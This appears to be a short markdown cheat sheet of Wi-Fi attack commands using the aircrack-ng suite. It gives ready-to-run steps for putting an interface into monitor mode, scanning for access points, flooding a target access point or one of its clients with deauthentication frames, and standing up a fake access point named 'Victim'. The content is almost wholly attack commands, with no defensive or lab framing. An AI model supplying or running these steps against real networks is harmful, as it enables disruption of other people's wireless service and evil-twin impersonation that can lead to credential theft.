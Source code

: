 ## Deauth Attack
Set interface into monitor mode
```txt
sudo airmon-ng start wlan1
```
Scan nearby Access Points
```
sudo airodump-ng wlan1 
```
Scan specific AP
```
sudo airodump-ng --bssid <Target AP> --channel <Select channel number of target AP> wlan1
```
Set wifi interface channel same as target AP
```
sudo iwconfig wlan1 channel <Select channel number of target AP>
```
Start deauth attack for target AP
```
sudo aireplay-ng -0 5000 -a <Target BSSID mac address> wlan1 
```
Start deauth attack for specific client of target AP
```
sudo aireplay-ng --deauth 5000 -a <BSSID of target AP> -c <BSSID of target client> wlan1
```
## Creating Fake SSID
```
sudo airbase-ng -e "Victim" -c 1 wlan2
```
